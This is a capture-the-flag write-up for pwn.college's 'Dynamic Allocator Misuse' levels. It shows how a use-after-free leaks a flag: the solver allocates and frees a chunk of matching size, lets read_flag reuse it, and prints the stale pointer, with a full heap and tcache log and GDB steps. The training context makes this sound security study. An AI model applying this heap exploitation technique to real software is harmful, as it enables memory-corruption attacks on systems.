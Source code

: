 # Dynamic Allocator Misuse

## level 1.0

[Use-After-Free](https://cwe.mitre.org/data/definitions/416.html) vulnerability

On trying, output says read_flag option mallocs 741 bytes
Malloc a chunk of size 741, free that chunk, now read the flag.. that chunk is reused. Now trying to print the freed chunk will print the flag

```shell
This challenge can manage up to 1 unique allocations.


[*] Function (malloc/free/puts/read_flag/quit): malloc

Size: 741

[*] allocations[0] = malloc(741)
[*] allocations[0] = 0x58b6847bf2c0

[*] Function (malloc/free/puts/read_flag/quit): free

[*] free(allocations[0])
+====================+========================+==============+============================+============================+
| TCACHE BIN #45     | SIZE: 729 - 744        | COUNT: 1     | HEAD: 0x58b6847bf2c0       | KEY: 0x58b6847bf010        |
+====================+========================+==============+============================+============================+
| ADDRESS             | PREV_SIZE (-0x10)   | SIZE (-0x08)                 | next (+0x00)        | key (+0x08)         |
+---------------------+---------------------+------------------------------+---------------------+---------------------+
| 0x58b6847bf2c0      | 0                   | 0x2f1 (P)                    | (nil)               | 0x58b6847bf010      |
+----------------------------------------------------------------------------------------------------------------------+


[*] Function (malloc/free/puts/read_flag/quit): read_flag

[*] flag_buffer = malloc(741)
[*] flag_buffer = 0x58b6847bf2c0
[*] read the flag!

[*] Function (malloc/free/puts/read_flag/quit): puts

[*] puts(allocations[0])
Data: pwn.college{xxxxx}


[*] Function (malloc/free/puts/read_flag/quit): quit

### Goodbye!
```

## level 1.1

Now we don't have the helpful descriptive output

In GDB:

- `b *main+604` (Set a breakpoint at malloc() call when read_flag entered)
- `run` -> Enter "read_flag" -> breakpoint encountered
- `i r` -> rax has value **990**

Replace 741 by 990 in prev solution

## level 2.0

Exactly like level 1.0

